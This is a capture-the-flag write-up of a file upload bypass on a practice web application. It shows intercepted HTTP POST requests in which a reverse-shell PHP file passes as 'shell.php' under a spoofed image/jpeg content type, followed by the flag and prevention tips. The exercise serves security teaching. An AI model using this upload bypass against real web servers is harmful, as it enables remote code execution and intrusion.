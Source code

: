 # File upload bypass
- involves tricking a vulnerable web application into accepting a malicious file by altering its file extension or metadata
- disguising a malicious script as a harmless file can be used to execute a remote shell or modify system settings
- https://book.hacktricks.xyz/pentesting-web/file-upload

<b>keywords</b>: file upload<br>
<b>attacked site</b>: http://borntosec.42/?page=upload

## Exploit
On the image-upload page, we attempt to upload a reverse shell <code>.php</code> script and disguise it with a <code>.php.jpg</code> extension. We intercept the POST request using <code>Burp Suite</code>:
``` http
POST /?page=upload HTTP/1.1
Host: 192.168.56.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------322401855413912123291879912389
Content-Length: 9758
Origin: http://192.168.56.106
Connection: close
Referer: http://192.168.56.106/?page=upload
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1

-----------------------------322401855413912123291879912389
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------322401855413912123291879912389
Content-Disposition: form-data; name="uploaded"; filename="shell.php.jpg"
Content-Type: application/x-php
```
However, this approach fails because the file is not converted server-side. Instead of changing the file extension, we modify the POST data:
``` http
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: image/jpeg
```
This successfully uploads the file, and we are able to access the flag:
``` 
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## Flag
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

## Exploit prevention
- validate filenames and check for permitted file types
- use server-side file type validation
- ensure that uploaded files are not executable 
